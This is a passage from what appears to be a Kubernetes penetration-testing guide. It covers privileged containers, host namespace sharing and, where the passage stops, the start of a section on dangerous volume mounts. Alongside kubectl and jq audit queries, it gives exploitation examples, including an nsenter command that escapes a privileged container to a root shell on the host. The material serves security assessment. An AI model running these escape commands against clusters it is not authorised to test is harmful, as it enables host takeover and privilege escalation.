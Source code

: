 **Exploitation Example:**
```bash
# If you have shell access to a privileged container
kubectl exec -it privileged-pod -- /bin/bash

# Check if privileged
id
cat /proc/self/status | grep Cap

# Escape to host
nsenter -t 1 -m -u -i -n -p /bin/bash
# Now you're root on the host system
```

### 2. Host Namespace Sharing
**Vulnerability:** Pods sharing host namespaces can access host processes, network, and IPC.

**Testing Commands:**
```bash
# Check for host network sharing
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.hostNetwork == true) | {name: .metadata.name, namespace: .metadata.namespace}'

# Check for host PID namespace
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.hostPID == true) | {name: .metadata.name, namespace: .metadata.namespace}'

# Check for host IPC namespace
kubectl get pods --all-namespaces -o json | jq '.items[] | select(.spec.hostIPC == true) | {name: .metadata.name, namespace: .metadata.namespace}'

# Comprehensive host sharing check
kubectl get pods -A -o json | jq '.items[] | select(.spec.hostNetwork == true or .spec.hostPID == true or .spec.hostIPC == true) | {name: .metadata.name, namespace: .metadata.namespace, hostNetwork: .spec.hostNetwork, hostPID: .spec.hostPID, hostIPC: .spec.hostIPC}'
```

**What to Look For:**
- `hostNetwork: true` - Pod uses host networking
- `hostPID: true` - Pod can see host processes
- `hostIPC: true` - Pod can access host IPC

**Exploitation Example:**
```bash
# From pod with hostPID=true
kubectl exec -it host-pid-pod -- ps aux
# You can see all host processes

# From pod with hostNetwork=true
kubectl exec -it host-network-pod -- netstat -tulpn
# You can see all host network connections
```

### 3. Dangerous Volume Mounts
**Vulnerability:** Mounting sensitive host paths allows container breakout.
